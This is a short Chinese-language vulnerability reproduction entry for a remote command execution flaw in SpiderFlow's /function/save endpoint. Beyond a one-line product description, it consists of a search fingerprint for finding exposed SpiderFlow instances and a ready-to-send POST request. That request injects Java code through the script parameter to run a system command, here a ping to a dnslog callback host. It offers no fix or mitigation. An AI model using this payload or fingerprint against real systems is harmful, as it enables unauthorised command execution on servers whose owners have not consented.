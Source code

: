 # SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬虫，是⼀个高度灵活可配置的爬虫平台

官⽹：https://www.spiderflow.org/

## 漏洞影响

```
SpiderFlow
```

## 网络测绘

```
title=="SpiderFlow"
```

## 漏洞复现

主页面

![image-20220524153437590](./images/202205241534681.png)

发送请求包执行命令

```
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![image-20220524153448336](./images/202205241534389.png)